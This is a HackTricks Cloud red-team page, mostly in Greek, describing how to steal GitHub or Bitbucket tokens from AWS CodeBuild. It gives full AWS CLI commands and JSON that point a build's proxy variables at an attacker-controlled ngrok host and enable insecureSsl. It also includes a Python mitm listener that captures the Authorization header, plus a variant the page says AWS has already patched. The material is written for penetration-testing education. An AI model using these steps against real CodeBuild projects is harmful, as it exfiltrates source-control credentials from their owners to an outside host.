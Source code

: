# AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Ανάκτηση Ρυθμισμένων Tokens Github/Bitbucket

Πρώτα, ελέγξτε αν υπάρχουν οποιαδήποτε διαπιστευτήρια πηγής ρυθμισμένα που θα μπορούσατε να διαρρεύσετε:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Αν διαπιστώσετε ότι η αυθεντικοποίηση για παράδειγμα στο Github είναι ρυθμισμένη στον λογαριασμό, μπορείτε να **exfiltrate** αυτήν την **access** (**GH token ή OAuth token**) κάνοντάς το Codebuild να **χρησιμοποιήσει μια συγκεκριμένη εικόνα docker** για να εκτελέσει την κατασκευή του έργου.

Για αυτόν τον σκοπό μπορείτε να **δημιουργήσετε ένα νέο έργο Codebuild** ή να αλλάξετε το **περιβάλλον** ενός υπάρχοντος για να ρυθμίσετε την **εικόνα Docker**.

Η εικόνα Docker που μπορείτε να χρησιμοποιήσετε είναι [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Αυτή είναι μια πολύ βασική εικόνα Docker που θα ρυθμίσει τις **env μεταβλητές `https_proxy`**, **`http_proxy`** και **`SSL_CERT_FILE`**. Αυτό θα σας επιτρέψει να παγιδεύσετε το μεγαλύτερο μέρος της κίνησης του host που υποδεικνύεται στο **`https_proxy`** και **`http_proxy`** και να εμπιστευτείτε το SSL CERT που υποδεικνύεται στο **`SSL_CERT_FILE`**.

1. **Create & Upload your own Docker MitM image**
* Ακολουθήστε τις οδηγίες του repo για να ρυθμίσετε τη διεύθυνση IP του proxy σας και να ρυθμίσετε το SSL cert σας και **να κατασκευάσετε την εικόνα docker**.
* **ΜΗ ΡΥΘΜΙΣΕΤΕ το `http_proxy`** για να μην παγιδεύσετε αιτήματα προς το endpoint μεταδεδομένων.
* Μπορείτε να χρησιμοποιήσετε **`ngrok`** όπως `ngrok tcp 4444` για να ρυθμίσετε το proxy στον host σας.
* Μόλις έχετε κατασκευάσει την εικόνα Docker, **ανεβάστε την σε ένα δημόσιο repo** (Dockerhub, ECR...)
2. **Set the environment**
* Δημιουργήστε ένα **νέο έργο Codebuild** ή **τροποποιήστε** το περιβάλλον ενός υπάρχοντος.
* Ρυθμίστε το έργο να χρησιμοποιεί την **προηγουμένως παραγόμενη εικόνα Docker**.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Set the MitM proxy in your host**

* Όπως υποδεικνύεται στο **Github repo** μπορείτε να χρησιμοποιήσετε κάτι σαν:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Η **έκδοση mitmproxy που χρησιμοποιήθηκε ήταν 9.0.1**, αναφέρθηκε ότι με την έκδοση 10 αυτό μπορεί να μην λειτουργήσει.
{% endhint %}

4. **Εκτέλεση της κατασκευής & καταγραφή των διαπιστευτηρίων**

*   Μπορείτε να δείτε το token στην κεφαλίδα **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Αυτό θα μπορούσε επίσης να γίνει από το aws cli με κάτι σαν

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### Μέσω insecureSSL

**Codebuild** έργα έχουν μια ρύθμιση που ονομάζεται **`insecureSsl`** που είναι κρυμμένη στο διαδίκτυο και μπορείτε να την αλλάξετε μόνο μέσω του API.\
Ενεργοποιώντας αυτό, επιτρέπει στο Codebuild να συνδεθεί με το αποθετήριο **χωρίς να ελέγχει το πιστοποιητικό** που προσφέρεται από την πλατφόρμα.

* Πρώτα πρέπει να καταγράψετε την τρέχουσα ρύθμιση με κάτι σαν:
```bash
aws codebuild batch-get-projects --name <proj-name>
```
* Στη συνέχεια, με τις συγκεντρωμένες πληροφορίες μπορείτε να ενημερώσετε τις ρυθμίσεις του έργου **`insecureSsl`** σε **`True`**. Ακολουθεί ένα παράδειγμα της ενημέρωσής μου για ένα έργο, παρατηρήστε το **`insecureSsl=True`** στο τέλος (αυτό είναι το μόνο που χρειάζεται να αλλάξετε από τη συγκεντρωμένη διαμόρφωση).
* Επιπλέον, προσθέστε επίσης τις μεταβλητές περιβάλλοντος **http\_proxy** και **https\_proxy** που δείχνουν στο tcp ngrok σας όπως: 

{% code overflow="wrap" %}
```bash
aws codebuild update-project --name <proj-name> \
--source '{
"type": "GITHUB",
"location": "https://github.com/carlospolop/404checker",
"gitCloneDepth": 1,
"gitSubmodulesConfig": {
"fetchSubmodules": false
},
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
"auth": {
"type": "CODECONNECTIONS",
"resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
},
"reportBuildStatus": false,
"insecureSsl": true
}' \
--environment '{
"type": "LINUX_CONTAINER",
"image": "aws/codebuild/standard:5.0",
"computeType": "BUILD_GENERAL1_SMALL",
"environmentVariables": [
{
"name": "http_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
},
{
"name": "https_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
}
]
}'
```
{% endcode %}

* Στη συνέχεια, εκτελέστε το βασικό παράδειγμα από [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) στην θύρα που υποδεικνύεται από τις μεταβλητές proxy (http\_proxy και https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Τέλος, κάντε κλικ στο **Build the project**, τα **credentials** θα σταλούν σε **καθαρό κείμενο** (base64) στη θύρα mitm:

<figure><img src="../../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

### ~~Μέσω πρωτοκόλλου HTTP~~

{% hint style="success" %}
**Αυτή η ευπάθεια διορθώθηκε από την AWS κάποια στιγμή την εβδομάδα της 20ης Φεβρουαρίου 2023 (νομίζω την Παρασκευή). Έτσι, ένας επιτιθέμενος δεν μπορεί να την εκμεταλλευτεί πια :)**
{% endhint %}

Ένας επιτιθέμενος με **υψηλά δικαιώματα σε έναν CodeBuild θα μπορούσε να διαρρεύσει το token Github/Bitbucket** που έχει ρυθμιστεί ή αν τα δικαιώματα είχαν ρυθμιστεί μέσω OAuth, το ** προσωρινό OAuth token που χρησιμοποιείται για την πρόσβαση στον κώδικα**.

* Ένας επιτιθέμενος θα μπορούσε να προσθέσει τις μεταβλητές περιβάλλοντος **http\_proxy** και **https\_proxy** στο έργο CodeBuild που να δείχνουν στη μηχανή του (για παράδειγμα `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Στη συνέχεια, αλλάξτε τη διεύθυνση URL του αποθετηρίου github για να χρησιμοποιεί HTTP αντί για HTTPS, για παράδειγμα: `http://github.com/carlospolop-forks/TestActions`
* Στη συνέχεια, εκτελέστε το βασικό παράδειγμα από [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) στη θύρα που υποδεικνύεται από τις μεταβλητές proxy (http\_proxy και https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Τέλος, κάντε κλικ στο **Build the project**, τα **credentials** θα σταλούν σε **καθαρό κείμενο** (base64) στην θύρα mitm:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Τώρα ένας επιτιθέμενος θα μπορεί να χρησιμοποιήσει το token από τον υπολογιστή του, να καταγράψει όλα τα δικαιώματα που έχει και να (καταχραστεί) πιο εύκολα από το να χρησιμοποιήσει απευθείας την υπηρεσία CodeBuild.
{% endhint %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Ελέγξτε τα [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Μοιραστείτε hacking tricks υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
